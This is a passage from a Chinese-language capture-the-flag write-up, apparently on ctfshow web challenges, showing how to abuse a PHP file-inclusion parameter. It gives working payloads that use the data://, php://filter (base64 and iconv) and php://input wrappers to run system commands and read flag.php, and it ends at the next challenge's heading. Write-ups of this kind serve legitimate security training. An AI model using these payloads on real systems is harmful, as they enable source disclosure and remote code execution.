 直接读：

```
?file=data://text/plain,<?php system("cat flag.php");?>
```

![image-20250227200115848](assets/image-20250227200115848.png)

另外可以用php伪协议，用 php://filter 读文件（flag.php）的源码：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

也可以换一种编码方式输出，这样就不用再对结果进行 base64 解码了：

```
?file=php://filter/convert.iconv.utf8.utf16/resource=flag.php  
```

还可以使用`php://input `：

```
URL/?file=pHp://input
POST:
<?php phpinfo()?>
```

执行成功，后面正常读取即可



#### web79
